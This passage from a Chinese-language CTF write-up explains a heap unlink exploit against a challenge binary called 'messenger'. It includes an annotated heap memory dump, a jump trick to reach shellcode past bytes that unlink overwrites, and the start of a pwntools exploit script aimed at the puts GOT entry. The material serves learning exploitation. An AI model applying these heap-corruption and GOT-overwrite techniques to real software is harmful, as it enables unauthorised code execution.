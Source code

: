 * `0x602010` - `puts_got-8`
* `0x6020a8` - shellcode 位置

這邊會看到 shellcode 位置只擺了 `\xeb\x16`(jmp 0x18)，這是因為 unlink 的 side-effect，他會在 `0x6020a8+16` 的位置擺上 buf_bk：

```
0x603000:      0x0000000000000018      0x0000000000603048           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603048
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000030           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000602010 <- buf_bk
0x6030c0:      shellcode
```

如果直接在 `0x6020a8` 放上 shellcode 會有一小段 shellcode 被 `0x602010` 寫爛，所以這邊不能直接放，而是利用了 `jmp 0x18` 讓 puts 跳過去的時候，再往前跳 `0x18`，這樣就會跳到 `0x6030c0` 真正 shellcode 所在的地方了

Final Exploit：

```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

r = process('./messenger')

def leave(size, msg):
    r.recvuntil('>>')
    r.sendline('L')
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.sendline(msg)

def change(idx, size, payload):
    r.recvuntil('>>')
    r.sendline('C')
    r.recvuntil('index :')
    r.sendline(str(idx))
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.send(payload)

def view(idx):
    r.recvuntil('>>')
    r.sendline('V')
    r.recvuntil('index :')
    r.sendline(str(idx))

def remove(idx):
    r.recvuntil('>>')
    r.sendline('R')
    r.recvuntil('index :')
    r.sendline(str(idx))

puts_got = 0x602018
```